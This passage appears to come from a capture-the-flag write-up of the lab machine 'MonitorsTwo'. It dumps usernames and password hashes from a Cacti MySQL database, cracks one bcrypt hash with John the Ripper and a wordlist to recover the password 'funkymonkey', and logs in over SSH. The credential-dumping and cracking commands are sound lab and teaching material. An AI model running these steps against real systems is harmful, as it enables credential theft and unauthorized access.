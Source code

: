 - we can see that there are different rows including a username and a password, so we can view the contents of these columns, and we can see in our output that we were able to retrieve some usernames as well as password hashes

```shell
mysql --host=db --user=root --password=root cacti -e 'select id,username,password from user_auth' --table
```

![](assets/MonitorsTwo_assets/Pasted%20image%2020230904175500.png)

```shell
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
|  3 | guest    | 43e9a4ab75570f5b                                             |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----+----------+--------------------------------------------------------------+

```

- we took that of the user marcus in attempt to crack it using john or hashcat (the other hash we found was taking forever to crack)
- using John, we then got the password of marcus as `funkymonkey`

```shell
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

![](assets/MonitorsTwo_assets/Pasted%20image%2020230904181951.png)

## Foothold

- so we can now ssh using the newly found credentials we have

```shell
ssh marcus@10.10.11.211
```
